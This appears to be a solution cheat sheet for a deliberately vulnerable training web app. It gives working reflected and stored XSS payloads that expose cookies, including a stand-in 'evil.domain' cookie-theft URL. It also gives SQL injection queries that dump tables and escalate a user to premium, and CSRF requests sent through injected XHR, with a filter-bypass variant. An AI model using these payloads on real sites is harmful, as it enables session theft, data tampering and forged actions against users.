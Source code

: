 # Solutions for the WebSec Challenges

This is a short cheat sheet for the challenge solutions.

## NORMAL Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<script>alert(document.cookie);</script>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field

### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<script>alert("evil.domain/cookie.php?c=" + document.cookie);</script>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart

### SQLi:

*friends.php*

- Find the necessary table name by reading the instructions and output the whole table to find the important field names

```SQL
'; SELECT * FROM users;--
```

- Enter The SQL code below in the user search bar to upgrade to premium status

```SQL
'; UPDATE users SET user_status = 'premium' WHERE username = '<username>';--
```

### CSRF:

*contact.php*

Here you have a total of three options:

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php

2. Manipulate the product comment field with the JavaScript below and then post a comment with the message you want to send

```html
<script>
var frm = document.getElementById('CSRForm');
frm.action = "contact.php";
document.getElementById('challengeUsername').value="elliot";
document.getElementById('challengePost').name="userPost";
</script>
```

3. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<script>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned");
</script>
```

## HARD Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<img src="" onerror=javascript:alert(document.cookie)>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field


### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<!-- NO space between the string and document.cookie -->
<img src="" onerror=javascript:confirm("evil.domain/cookie.php?c="+document.cookie)>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart


### SQLi:

*friends.php*

- disable the `maxlength` attribute for the search field with the inspector

- Find the necessary table names by running the code below

```SQL
';SELECT * FROM sqlite_master;--
```

- Enter the SQL code in the user search bar below to update to premium status

```SQL
'; UPDATE premium_users SET status='premium' WHERE username='<username>';--
```

### CSRF:

- Get Elliot's CSRF token from the friends database

```SQL
'; SELECT * FROM users;--
```

Now, you have only 2 options left (since the product comment field is now better secured against XSS attacks):

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php (including the token)

2. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<ScRiPt>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned&utoken=<token>");
</ScRiPt>
```